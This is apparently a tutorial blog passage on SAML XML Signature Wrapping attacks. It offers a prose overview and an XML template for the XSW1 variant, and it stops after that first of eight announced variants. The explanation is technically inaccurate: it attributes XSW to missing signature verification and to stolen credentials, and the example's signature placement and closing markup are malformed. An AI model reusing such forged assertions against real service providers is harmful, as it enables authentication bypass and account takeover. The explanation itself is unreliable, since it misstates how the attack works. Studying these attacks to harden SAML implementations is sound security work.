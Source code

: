 Signature Wrapping (XSW) attacks rely on a vulnerability in the SAML protocol. These attacks occur in the absence of XML Digital Signature (XML DSig) verification, which is used to establish trust between the identity provider (Identity Provider - IdP) and the service provider (Service Provider - SP).

XSW attacks allow an attacker to manipulate SAML assertions by altering or forging credentials. The attacker acts as an untrusted service provider and passes the SAML identity statement to the targeted SP. However, the attacker deceives the SP by changing the SAML credential or adding new credentials.

The attack may include the following steps:

- The attacker captures the user's credentials (for example, the username and password used to log into the identity provider).

- An attacker creates or modifies the SAML identity statement. The identity statement verifies that the user is authorized and has access to a particular SP.

- The attacker sends the SAML identity statement to the targeted SP. The identity statement implies that the attacker is an authorized user and must be trusted by the SP.

- The SP accepts the SAML statement of identity and processes it securely without verifying the user information in it.

The attacker's targeted SP, assuming the SAML assertion is valid, accepts the attacker's false identity statement and authorizes the attacker. This can lead to an attacker's abuse of privileges on the target SP, for example, privilege escalation, authentication exploitation, or denial of service.

These attack types are divided into 8 types. Normally I can point you to a link for you to read, but I was losing my mind while working on this topic before. That's why I wanted to tell you in a much more detailed and detailed way.

- XSW1 :// Applies to SAML Response messages. A cloned, unsigned copy of Response is appended immediately after the existing signature.
```
<Response xmlns="urn:oasis:names:tc:SAML:2.0:protocol" ID="_d71c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z" Destination="https://service -provider.com/acs">
<Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
<Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
<StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
</Status>
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e44c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e44c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
<Signature xmlns="http://www.w3.org/2000/09/xmldsig#">
<!-- Original Signature -->
</Signature>
</Assertion>
<Response>
<!-- Cloned, unsigned copy of Response -->
```